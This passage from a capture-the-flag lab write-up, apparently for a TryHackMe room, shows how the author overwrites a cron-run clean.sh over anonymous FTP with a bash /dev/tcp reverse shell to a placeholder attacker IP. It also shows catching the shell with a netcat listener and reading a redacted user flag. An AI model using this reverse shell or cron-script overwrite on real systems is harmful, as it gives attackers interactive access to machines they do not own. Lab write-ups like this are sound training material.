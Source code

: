 ### 3. Exploit clean.sh
- Created a malicious `clean.sh` to spawn a reverse shell:
  ```bash
  nano clean.sh
  ```
- Content:
  ```bash
  #!/bin/bash
  bash -i >& /dev/tcp/[ATTACKER IP]/4444 0>&1
  ```
- **Explanation**: This script opens an interactive Bash shell, redirecting input/output to a TCP connection to `[ATTACKER IP]` (e.g., `10.23.91.52`) on port 4444.
- Made it executable:
  ```bash
  chmod +x clean.sh
  ```
- Set up a Netcat listener:
  ```bash
  nc -lvnp 4444
  ```
- Uploaded the malicious script to overwrite the original:
  ```bash
  ftp [VICTIM IP]
  Name: anonymous
  Password: anonymous
  cd scripts
  put clean.sh
  ```
- Waited ~1 minute (cron job likely runs every minute, per [,]).[
- **Result**: Got a shell as `namelessone`:
  ```bash
  nc -lvnp 4444
  Connection from [VICTIM IP]
  bash: cannot set terminal process group (1234): Inappropriate ioctl for device
  bash: no job control in this shell
  namelessone@anonymous:~$ whoami
  namelessone
  ```
- **Note**: The shell is unstable (no TTY). To improve it:
  ```bash
  export TERM=xterm
  ```
- This allows commands like `clear` [].

### 4. Find User Flag
- Checked the home directory:
  ```bash
  cd /home/namelessone
  ls
  ```
- Output:
  ```
  user.txt
  ```
- Read the flag:
  ```bash
  cat user.txt
  ```
- Content: `THM{redacted_user_flag}`.
